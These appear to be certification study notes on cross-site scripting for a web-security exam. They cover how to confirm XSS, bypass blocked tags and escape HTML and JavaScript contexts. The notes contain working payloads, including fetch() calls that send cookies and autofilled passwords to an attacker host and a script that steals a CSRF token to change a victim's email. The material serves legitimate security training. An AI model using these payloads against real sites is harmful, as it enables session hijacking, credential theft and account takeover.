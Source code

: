 ##### PortSwigger BurpSuite Certification Summary
# XSS
The classic way of checking if there is a XSS vulnerability is invoking the `alert()` or `print()` function:
```
<script>alert()</script>
```

To show on which domain the JS code is executing on, this can be used:
```
<script>alert(document.domain)</script>
```
## Reflected XSS
This method of XSS is the simplest version and can be done when the application reflects data of a request in the response. For example, a parameter might be given with a request:
```
https://website.com/search?parameter=foo
```

Information can be sent to a host controlled by the attacker in the following way:
```
<script>
fetch('https://ATTACKER-HOST', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

This sends the user's cookie to the attacker's host, a common technique, as a user cookie allows for impersonation.

Another effective way of obtaining credentials is to make the user's password autocompletion fill in the password and sending it to the attacker. For this, a login form is used:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://ATTACKER-HOST',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Triggering some (for the attacker benefitial) action can sometimes be done directly, such as a password reset:
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

#### Blocked Tags and Attributes
HTML elements can be blocked by the WAF, but there can still be some permitted. Enumerating all possible tags will reveal which and can be done with the Intruder. In the according input, try all tags with:
```
<§§>
```

If a permitted tag is found, the events should be enumerated:
```
<body §§=1>
```

When knowing which tag and event is permitted, the attack can be crafted, where the even should be triggered:
```
<iframe src="https://VICTIM-HOST/?search=<body onresize=print()>" onload=this.style.width='100px'>
```

It can be that only custom tags are allowed. However, it is fairly easy to define one's own tag:
```
<script>
location = 'https://VICTIM-HOST/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

Here the `location` variable is needed for the exploit to work. The tag name and id however are arbitrary. The `onfocus` event is triggered with the `#x` command.

In case `SVG` tags are allowed with an animation action, the command can look something like this:
```
<svg><animatetransform onbegin=alert(1)>
```
The XSS cheat sheet provides all actions for the `animatetransform` which can be enumerated like usually. 

### XSS within HTML Tags
In this scenario, the script will be defined within a tag, so the normal flow has to be broken first. Often the brackets are blocked, but there are multiple ways of breaking out of the tag:
```
" autofocus onfocus=alert(1) x="
```
This sequence tries to focus on the element and thus triggering the `onfocus` event. The `x=` is there to produce valid code after the breakout happened.

The tag can also allow JS code to be run natively, such as `href`:
```
<a href="javascript:alert(1)">
```

##### Access Keys
There is a functionality which allows shortcut to be defined for an action, such as opening a link. An `accesskey` attribute can be set for the whole page and trigger an arbitrary command:
```
http://VICTIM-HOST?'accesskey='x'onclick='alert(1)
```
### XSS within JavaScript
This is a scenario where the XSS context is in some JS code. The attack can break out of the script and perform arbitrary actions:
```
</script><img src=1 onerror=alert(1)>
```
This leaves the script broken, but the attacker code is still carried out. The context in which the user input is in can often be seen in the response, e.g.:
```
<script>
  var searchTerms = 'lolo\'lol';
  document.write('<img src="/resources/images/tracker.gif? 
  searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
where it can also be seen which characters get escaped.

In case the string can be escaped, JS code can be carried out directly. For this, the script has to be "fixed" after escaping the string, because the script runs only if it works as a whole. Escaping can be done with:
```
'-alert(1)-'
';alert(1)//
```
In the situation where quote characters are escaped with a backslash, it can still be that the backslash itself is not escaped. Therefore, the convertion looks like this:
```
\';alert(1)//

becomes

\\';alert(1)//
```
